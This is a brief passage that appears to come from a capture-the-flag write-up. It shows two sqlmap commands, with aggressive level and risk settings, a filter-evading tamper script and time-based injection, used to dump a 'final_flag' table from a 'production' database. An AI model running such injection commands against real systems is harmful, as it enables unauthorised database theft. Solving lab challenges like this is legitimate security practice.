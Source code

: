 Run sqlmap with these options to retrieve the flag: 

```
sqlmap -r req.txt --batch --dump --level 5 --risk 3 --random-agent --tamper=between --technique=t
```
<img width="1768" height="601" alt="image" src="https://github.com/user-attachments/assets/0f8ea8cc-3290-4ba1-a2b8-48c4232fae5e" />


```
sqlmap -r req.txt --batch --dump --level 5 --risk 3 --random-agent --tamper=between --technique=t -D production -T final_flag
```

<img width="1459" height="473" alt="image" src="https://github.com/user-attachments/assets/d5052e15-5ce1-4923-94ba-30ece24f9b99" />

---


















